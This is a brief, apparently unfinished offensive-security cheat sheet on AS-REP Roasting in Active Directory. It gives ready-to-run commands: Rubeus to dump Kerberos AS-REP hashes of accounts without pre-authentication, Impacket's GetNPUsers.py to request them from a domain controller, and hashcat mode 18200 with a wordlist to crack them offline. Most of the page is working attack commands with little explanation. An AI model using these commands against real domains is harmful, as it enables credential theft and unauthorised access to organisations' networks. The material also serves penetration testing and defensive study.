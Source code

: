 # AS-REP Roasting

#### STILL EDITING

#### AS-REP Roasting

> **AS-REP Roasting** dumps the `krbasrep5` hashes of user accounts that have Kerberos pre-authentication disabled.

* **Rubeus** (local => automatically find as-rep roastable users):

```powershell
.\Rubeus.exe asreproast
```

* **Impacket** (remote => requires to enumerate as-rep roastable users with `BloodHound` for instance):

```bash
GetNPUsers.py <Domain>/[username] -dc-ip <IP> -request  [-no-pass -usersfile users.txt]
```

* Cracking Kerberos 5 AS-REP etype 23 _(sometimes need to add `$23` after `$krb5asrep`)_:

```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
